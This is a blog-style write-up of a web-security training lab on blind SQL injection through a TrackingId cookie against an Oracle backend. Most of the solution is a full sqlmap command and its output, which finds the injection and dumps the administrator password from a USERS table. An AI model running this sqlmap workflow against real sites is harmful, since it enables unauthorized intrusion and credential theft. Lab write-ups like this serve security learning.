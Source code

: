 ```yaml
---
layout: post
title:  "Blind SQL injection with conditional errors"
date:   2024-09-22 09:39:54 +0530
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

Like the previous lab, This is same way to exploit through a cookie value where the `TrackingId` is vulnerable to SQLi and It uses an `Oracle` database 

```sh
 ✘ nits@FWS-CHE-LT-8869  ~/Workspace/Personal/blog   main  sqlmap -u "https://0a6b00b104f31bcf80063aa500500058.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" -p "TrackingId" --level 2 --threads 5
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:36:24 /2024-09-22/

[11:36:24] [INFO] testing connection to the target URL
[11:36:25] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
[11:36:31] [INFO] target URL content is stable
do you want to URL encode cookie values (implementation specific)? [Y/n] n
[11:36:34] [WARNING] heuristic (basic) test shows that Cookie parameter 'TrackingId' might not be injectable
[11:36:35] [INFO] testing for SQL injection on Cookie parameter 'TrackingId'
[11:36:35] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:37:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[11:37:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[11:37:24] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[11:37:49] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[11:38:05] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[11:38:14] [INFO] Cookie parameter 'TrackingId' appears to be 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)' injectable (with --code=200)
```

While dumping the database, we found `administrator` credentials 

```sh
[11:48:19] [INFO] fetching entries for table 'USERS' in database 'PETER'
[11:48:19] [INFO] fetching number of entries for table 'USERS' in database 'PETER'
[11:48:19] [INFO] retrieved: 3
[11:48:23] [INFO] retrieving the length of query output
[11:48:23] [INFO] retrieved: 
[11:48:25] [INFO] retrieved:  
[11:48:36] [INFO] retrieving the length of query output
[11:48:36] [INFO] retrieved: 20
[11:49:03] [INFO] retrieved: p2vmu5h7blpqnvt10fs8             
[11:49:03] [INFO] retrieving the length of query output
[11:49:03] [INFO] retrieved: 13
[11:49:23] [INFO] retrieved: administrator             
[11:49:23] [INFO] retrieving the length of query output
```

Now login with those credentials and lab is solved 

![]({{ site.baseurl }}/assets/images/sqli50.png)